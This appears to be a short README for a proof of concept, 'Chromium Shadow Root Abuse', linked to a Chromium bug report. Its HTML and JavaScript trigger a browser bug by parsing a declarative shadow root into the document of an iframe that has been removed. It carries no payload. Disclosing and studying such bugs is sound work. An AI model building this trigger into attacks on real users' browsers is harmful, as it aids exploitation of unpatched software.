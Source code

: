 # Chromium Shadow Root Abuse

### POC

```html
<a href="?disable">disable poc</a>
<br>
<a href="?enable">enable poc</a>
<script>
const enabled = location.href.includes('disable');

(function() {
    const ifr = document.body.appendChild(document.createElement('iframe'));
    const template = ifr.contentWindow.document.createElement('html');
    !enabled && ifr.remove();
    template.innerHTML = `<my-element><template shadowroot="open"></template></my-element>`;
    const shadow = template.children[1].children[0].children[0];
    console.log(shadow);
})();
</script>
```
### Resources

- [Bug report](https://bugs.chromium.org/p/chromium/issues/detail?id=1465129)
